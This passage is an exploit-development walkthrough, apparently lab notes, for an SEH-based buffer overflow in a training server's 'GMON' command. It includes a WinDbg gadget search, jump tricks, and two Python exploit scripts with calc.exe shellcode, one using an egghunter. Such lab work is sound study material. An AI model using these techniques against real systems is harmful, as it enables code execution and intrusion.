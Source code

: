 ## <ins>GMON</ins>

Just like before, the initial Proof of Concept was executed, this time having `GMON` as the prefix of the buffer.

Following the execution path through IDA and WinDbg, the following byte comparison gets reached:

![7866ad57422c572ec642db02db897806.png](:../../../C\)%20Images/5c2f4fd5c86c4168ab42b2eb045d2656.png)

First, the address of the buffer is moved into EAX, then the value 5 (stored at ebp+var_418) is added to the address (this is the length of the prefix).
Afterwards a comparison is made between the first byte and the character `/`.

Just like before, this ends in a loop in case the `cmp` instruction does not return 0.

Knowing about this check, the following changes were made to the script:

```Python
[...]

prefix = b'GMON '
buffer = b'/' + b'Aa0Aa1Aa2Aa3[...g4F'	# msf-pattern_create -l 4096

payload = prefix + buffer

[...]
```

An access violation is triggered but the value stored in EIP does not seem to exist inside the unique pattern string generated using msf-pattern_create.

Taking a look at the SEH chain reveals, that it got overwritten using values that are indeed in the pattern:

![a44adbc6b9426357a752fe8bf79c6574.png](:../../../C\)%20Images/38eba8d44e7b48f88db40690d64c2866.png)

Letting the execution continue overwrites EIP with `356f4534` which is equivalent to offset 3554 in the pattern (6f45336f equals 3550).

As this appears to be a SEH based buffer overflow it is required to perform a `POP; POP; RET;` instruction sequence (from now on referred to as PPR) and a short jump over the NSEH.

The following WinDbg script was used to look for such a gadget:

```Ruby
.block
{
  .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
  {
    .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
    {
      s-[1]b 62500000 62508000 $t0 $t1 c3
    }
  }
}
```

![24778c429d669f6181448fb93d7fd5fb.png](:../../../C\)%20Images/0af185a2b7c0447cb41703c2657ee2ad.png)

Overwriting the SEH chain is not enough though, as it only becomes active in case of an exception (which could get achieved by e.g. overwriting memory regions someone is not supposed to).

The following changes were made to the script in order to:

1.  Overwrite the SEH (6 byte short jump) and NSEH (PPR)
2.  Trigger an exception

```Python
[...]

prefix = b'GMON '
buffer = b'/' + b'A' * 3550
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
junk = b'A' * 2000

payload = prefix + buffer + seh + nseh + junk

[...]
```

Dumping the stack reveals that the space available is not nearly enough for some shellcode to fit in. Because of that a second (larger) jump is required.

It might be possible to utilise an egghunter and just throw the shellcode somewhere but for the GMON command a second (larger) jump will be utilised.

(Once again no bad characters besides 0x00 exist, so this step is skipped)

I will place the shellcode in the initial buffer by replacing the A's with NOPs and the shellcode somewhere in the middle.

In order to jump to the landing pad (NOPs) it is required to calculate the difference between an address somewhere within the landing pad and ESP.

There are various techniques to find a working address / calculate the required offset. One would be to look for the string `GMON /` and then adding some bytes in order to land somewhere in the buffer:

![ffcd33e2430b9395908ba922b16e65cf.png](:../../../C\)%20Images/d59d637473b24e2384f488ec051891bb.png)

Next, ESP can be subtracted from the address (e.g. `0x0111f1f8`) **after** the shortjump got executed.

![2c574c8517836a7b0211cf7a8dd7f7b1.png](:../../../C\)%20Images/5e0c36bd0b6d4ffbbc652301a771f0d0.png)

Since an instruction sequence like `add esp, 0x56c` would contain NULL-bytes you have to use a little trick. When working with CPU registers you can always use just a part of it (e.g. instead of RSP, ESP or instead of ESP, SP):

```Text
┌──(kali㉿kali)-[~]
└─$ msf-nasm_shell                
nasm > add sp,0x56c
00000000  6681C46C05        add sp,0x56c
nasm > 
```

Simply add `ff e4` to the sequence above in order to jump to the stack pointer.

Eventually, the working exploit looked like this:

```Python
# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
[...]
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

length = 3550

prefix = b'GMON /'		# The / was moved to the prefix (doesn't change anything)
buffer = b'\x90' * 32
buffer += shellcode
buffer += b'\x90' * (length - len(buffer))	# The length must still total 3550 bytes
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
jump = b'\x66\x81\xC4\x6A\x05'	# add sp instruction
jump += b'\xff\xe4'		# jmp to esp
junk = b'A' * 2000		# junk in order to trigger an exception

payload = prefix + buffer + seh + nseh + jump + junk
```

Alternative using a Windows 10 egghunter:

```Python
# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b"w00tw00t"
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
[...]
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

length = 3550

prefix = b'GMON /'
buffer = b'\x90' * 32
buffer += shellcode
buffer += b'\x90' * (length - len(buffer))
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
# egghunter looking for the w00tw00t tag
egghunter = (b"\x66\x81\xca\xff\x0f\x42\x52\xb8\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7")

junk = b'A' * 2000

payload = prefix + buffer + seh + nseh + egghunter + junk
```
